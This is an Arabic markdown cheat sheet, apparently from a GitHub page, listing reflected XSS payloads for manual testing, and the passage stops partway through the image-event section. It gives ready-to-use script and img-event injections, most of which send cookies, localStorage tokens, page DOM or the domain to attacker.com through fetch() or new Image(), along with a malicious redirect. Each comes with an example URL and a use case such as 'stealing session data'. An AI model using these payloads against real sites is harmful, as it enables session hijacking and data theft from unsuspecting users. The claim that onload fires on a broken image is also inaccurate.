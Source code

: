 
## جميع المحاولات الممكنة لاختبار ثغرة XSS المنعكس
في اختبار ثغرة XSS المنعكس، المحاولات تركز على إدخال شيفرات JavaScript أو HTML في نقاط إدخال تُعرض مباشرة في استجابة الصفحة. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في معلمات URL، حقول النماذج، أو رؤوس HTTP. الهدف هو تنفيذ JavaScript في استجابة الصفحة.

#### أ. حقن باستخدام وسوم HTML
{ #XSS_Idea_for_script_tag   }
إدراج وسوم HTML تحتوي على JavaScript مباشرة.
- **الحقن**: `<script>alert('XSS')</script>`
  - **الإدخال**: `https://example.com/search?q=<script>alert('XSS')</script>`
  - **كيف يعمل**: ينفذ تنبيهًا إذا عُرضت الشيفرة في HTML.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة XSS.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **الإدخال**: `https://example.com/search?q=<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة.
- **الحقن**: `<script>document.location='http://attacker.com'</script>`
  - **الإدخال**: `https://example.com/search?q=<script>document.location='http://attacker.com'</script>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **الإدخال**: أدخل في حقل نموذج: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: `https://example.com/search?q=<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### ب. حقن باستخدام وسوم صور أو أحداث
{  #XSS--ALL--Event--Payload /   #XSS_Idea_for_Img_tag}
استخدام وسوم HTML مع أحداث JavaScript لتنفيذ الشيفرة.
- **الحقن**: `<img src=x onload="alert('XSS')">`
  - **الإدخال**: `https://example.com/search?q=<img src=x onload="alert('XSS')">`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد الثغرة تلقائيًا.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: `https://example.com/search?q=<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **الإدخال**: أدخل في حقل نموذج: `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **كيف يعمل**: يرسل النطاق عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر `<script>`.
- **الحقن**: `<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`